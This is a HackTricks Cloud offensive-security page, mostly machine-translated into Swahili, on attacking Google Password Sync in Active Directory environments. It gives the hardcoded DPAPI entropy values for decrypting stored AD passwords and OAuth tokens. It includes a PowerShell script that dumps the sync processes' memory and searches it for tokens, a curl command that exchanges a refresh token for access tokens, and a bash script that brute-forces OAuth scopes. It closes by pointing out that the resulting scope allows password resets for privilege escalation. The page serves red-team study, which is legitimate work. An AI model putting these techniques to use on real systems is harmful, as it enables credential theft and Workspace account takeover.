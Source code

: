 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Hii ni binary na huduma ambayo Google inatoa ili **kuhifadhi nywila za watumiaji zikiwa sambamba kati ya AD** na Workspace. Kila wakati mtumiaji anapobadilisha nywila yake katika AD, inakabidhiwa kwa Google.

Inasakinishwa katika `C:\Program Files\Google\Password Sync` ambapo unaweza kupata binary `PasswordSync.exe` ili kuisakinisha na `password_sync_service.exe` (huduma ambayo itaendelea kufanya kazi).

### GPS - Configuration

Ili kusanidi binary hii (na huduma), inahitajika **kumpatia ufikiaji wa Super Admin principal katika Workspace**:

* Ingia kupitia **OAuth** na Google kisha itahifadhi **token katika rejista (imefichwa)**
* Inapatikana tu katika Domain Controllers zenye GUI
* Kutoa baadhi ya **akidi za Akaunti ya Huduma kutoka GCP** (faili ya json) zenye ruhusa za **kusimamia watumiaji wa Workspace**
* Wazo mbaya sana kwani akidi hizo hazikuwahi kuisha na zinaweza kutumika vibaya
* Wazo mbaya sana kumpatia SA ufikiaji juu ya workspace kwani SA inaweza kuathiriwa katika GCP na itakuwa rahisi kuhamasisha kwa Workspace
* Google inahitaji hivyo kwa udhibiti wa kikoa bila GUI
* Akidi hizi pia zinahifadhiwa katika rejista

Kuhusu AD, inawezekana kuonyesha kutumia **muktadha wa sasa wa programu, bila jina au akidi maalum**. Ikiwa chaguo la akidi limechaguliwa, **jina la mtumiaji** linahifadhiwa ndani ya faili katika **disk** na **nywila** inafichwa na kuhifadhiwa katika **rejista**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

Katika faili **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** inawezekana kupata sehemu ya usanidi kama **`baseDN`** ya AD iliyowekwa na **`username`** ambao akidi zake zinatumika.

Katika rejista **`HKLM\Software\Google\Google Apps Password Sync`** inawezekana kupata **token ya kusasisha iliyofichwa** na **nywila iliyofichwa** kwa mtumiaji wa AD (ikiwa ipo). Zaidi ya hayo, ikiwa badala ya token, baadhi ya **akidi za SA** zinatumika, pia inawezekana kupata hizo zilizofichwa katika anwani hiyo ya rejista. **Thamani** ndani ya rejista hii zinapatikana tu na **Wasimamizi**.

**Nywila** iliyofichwa (ikiwa ipo) iko ndani ya ufunguo **`ADPassword`** na inafichwa kwa kutumia **`CryptProtectData`** API. Ili kuifichua, unahitaji kuwa mtumiaji yule yule aliyesanidi usawazishaji wa nywila na kutumia **entropy** hii unapofanya **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

**Token** iliyofichwa (ikiwa ipo) iko ndani ya ufunguo **`AuthToken`** na inafichwa kwa kutumia **`CryptProtectData`** API. Ili kuifichua, unahitaji kuwa mtumiaji yule yule aliyesanidi usawazishaji wa nywila na kutumia **entropy** hii unapofanya **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Zaidi ya hayo, pia imeandikwa kwa kutumia base32hex na kamusi **`0123456789abcdefghijklmnopqrstv`**.

Thamani za entropy zilipatikana kwa kutumia zana. Ilisakinishwa kufuatilia simu za **`CryptUnprotectData`** na **`CryptProtectData`** na kisha zana hiyo ilitumika kuzindua na kufuatilia `PasswordSync.exe` ambayo itafichua nywila iliyowekwa na token ya uthibitishaji mwanzoni na zana hiyo it **onyesha thamani za entropy zilizotumika** katika hali zote mbili:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Kumbuka kwamba pia inawezekana kuona **thamani zilizofichuliwa** katika ingizo au pato la simu hizi za API pia (ikiwa kwa bahati mbaya Winpeas itakoma kufanya kazi).

Ikiwa Usawazishaji wa Nywila ulisasanidiwa **na akidi za SA**, pia itahifadhiwa katika funguo ndani ya rejista **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Kama ilivyo na GCPW, inawezekana kutoa kumbukumbu ya mchakato wa `PasswordSync.exe` na mchakato wa `password_sync_service.exe` na utaweza kupata token za kusasisha na ufikiaji (ikiwa tayari zimeundwa).\
Nadhani unaweza pia kupata akidi zilizowekwa za AD.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Kutengeneza alama za ufikiaji kutoka kwa alama za upya

Kwa kutumia alama ya upya, inawezekana kutengeneza alama za ufikiaji kwa kutumia hiyo na kitambulisho cha mteja na siri ya mteja zilizoainishwa katika amri ifuatayo:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Kumbuka kwamba hata kuwa na token ya kusasisha, siwezi kuomba scope yoyote kwa token ya ufikiaji kwani unaweza tu kuomba **scopes zinazoungwa mkono na programu ambapo unazalisha token ya ufikiaji**.

Pia, token ya kusasisha si halali katika kila programu.
{% endhint %}

Kwa default GPS haitaweza kupata kama mtumiaji kwa kila scope ya OAuth inay posible, hivyo kutumia script ifuatayo tunaweza kupata scopes ambazo zinaweza kutumika na `refresh_token` kuzalisha `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Na hii ndiyo matokeo niliyopata wakati wa kuandika:
```
https://www.googleapis.com/auth/admin.directory.user
```
Ambayo ni sawa na ile unayopata ikiwa hujaelezea eneo lolote.

{% hint style="danger" %}
Kwa eneo hili unaweza **kubadilisha nenosiri la mtumiaji aliyepo ili kuongeza mamlaka**.
{% endhint %}

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
